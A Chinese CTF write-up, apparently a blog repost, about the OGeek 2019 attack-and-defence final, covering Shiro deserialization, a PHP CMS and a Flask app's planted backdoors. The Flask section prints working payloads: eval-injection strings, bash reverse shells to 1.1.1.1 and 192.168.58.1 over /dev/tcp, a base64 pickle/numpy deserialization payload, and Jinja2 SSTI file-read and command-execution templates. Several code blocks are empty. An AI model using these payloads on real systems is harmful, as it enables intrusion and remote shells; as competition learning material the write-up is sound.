


(本文首发于先知社区,链接:https://xz.aliyun.com/t/6530)
前言
靠着大腿混进决赛.膜ex师傅,膜impakho师傅.
主办方的权限控制,题目难度之类的都做得非常好.只可惜我太菜了,根本找不到洞,只会划水摸鱼.
赛制也对我这样的菜鸡非常友好.攻击和防守都可以得分,按结果来看,防守也是大多数队伍的主要得分方式.
也就是说,只要写一个可以过check的通防waf,就可以拿分.
web1
题目是一个java web,tomcat框架,不太熟悉
随手翻了下目录,一眼就看到shiro1.2.4 , 反序列化漏洞.
还以为是白给,跟着网上步骤复现了一遍,失败了.仔细看了源码,发现出题人重写了cookie的加密函数.
暂时放弃,直到有队成功攻击了我们一次,才着手防守.
防守并不困难,修改硬编码的rememberkey ,后续再也没有被攻击.
跟着飘零师傅学习下,2019 OGeek Final & Java Web
web2
是zero-cms,有代码备注时间在2009年,但是网上并没有找到相关信息.
php的常规思路用d盾扫一下,高难度的比赛一般不会出这么明显的后门,无功而返.
备份网站,在入口文件上了waf,/tmp目录没权限写,导致第一时间日志没上.最后一个小时才发现只有web目录下的/update可以写文件,才把日志整上. 这个时间大佬们都开始打假流量混淆了,很难从日志中审出什么东西.
看个日志还是很欢乐的,看到smile师傅的马被好几个队拿来打混淆.smile师傅的马都出名了.
一个洞都没挖到,事后看wp有几个漏洞藏的也不是很深,缺乏经验与细心.
具体漏洞情况参照xmsec师傅的博客文章ogeek-ozero-wp
web3
python的flask框架,比起php和java的几十上百个文件,python的代码就友好的多了.
主要逻辑都在app.py里面,python的漏洞也比较明显,web3是大多数队伍的主要攻击目标.
robots后门
见面就是一个简陋的后门,
1 |
|
把flag放在robots.txt里,访问就可以拿到.
eval后门
1 | def set_str(type,str): |
定义了一个很奇怪的函数,一看就知道是刻意设置的后门,全局搜索哪里调用.
1 |
|
看到message中有调用,且有简单限制,msg长度得小于27个字符且不能有空格和下划线,type只能输入一个字符
读flag的poc比较简单,payload如下:
post: type='&msg=%2bopen('/flag').read()%2b'
赛后花了不少时间思考能不能getshell,折腾半天终于成功,正好27个字符.
post: msg=%2Bos.popen("echo%09-n%09b>>a")%2B'&type='
简单分析payload,
首先需要通过python解释器,因此不能有语法错误,需要前后单引号以及+号闭合.
原本的app.py中已经导入os,帮了个大忙,可以使用os.popen()执行命令
不能有空格,但在bash中tab与空格等价url编码为%09
echo不输出换行符可使用参数-n.
请求后会报错,但实际上已写入文件.


依次写入反弹shell的payload:bash -c 'bash -i >/dev/tcp/1.1.1.1/4444 0>&1',空格用tab代替.
最后post请求msg=%2Bos.popen("sh%09a")%2B'&type='即可执行代码反弹shell.

pickle反序列化
看到import了pickle这个库,第一反应就是python反序列化.
全局搜索pickle.
1 |
|
大致逻辑是,如果是post请求,则获取cookie中的user字段,base64解码,并触发反序列化.
反弹shell的payload,需要base64编码:
1 | cposix |
如果要直接返回flag,得使返回值的类型为字典,且有name键.
numpy反序列化(CVE-2019-6446)
队里大佬找出来的,我都不知道numpy啥时候出了漏洞,.
这个洞非常坑,虽然找到了漏洞,也非常容易修复,但一改就被checkdown.
最后尝试使用replace替换黑名单关键字,但还是被人疯狂拿分.也可能是没发现的其他漏洞.
1 |
|
因为numpy的loads方法调用的也是pickle,因此pickle的payload还是可以用.
payload: post提交:
matrix1=Y3Bvc2l4CnN5c3RlbQpwMQooUyJiYXNoIC1jICdiYXNoIC1pID4vZGV2L3RjcC8xOTIuMTY4LjU4LjEvNDQ0NCAwPiYxJyIKcDIKdHAzClJwNAou&matrix2=MQ==
Jinja2.from_string SSTI
也是今年新洞
https://www.exploit-db.com/exploits/46386
1 |
|
data处使用了 Jinja2.from_string直接拼接字符串,存在ssti.
poc 需要base64编码填入在cookie的username字段,还因为是python3 一些payload不能使用.
读flag:
1 | {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('\\flag', 'r').read() }}{% endif %}{% endfor %} |
执行命令:
1 | {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %} |
小结
flask日志记录
flask本身的日志功能并不能满足AWD的需求,就随手写了一个.比赛中是用队里大佬临时写的,赛后重新写了一个
1 | def awdlog(): |
因为python这题check比较严格,上了waf一直被checkdown,所以没写waf.不过和php的道理是一样的.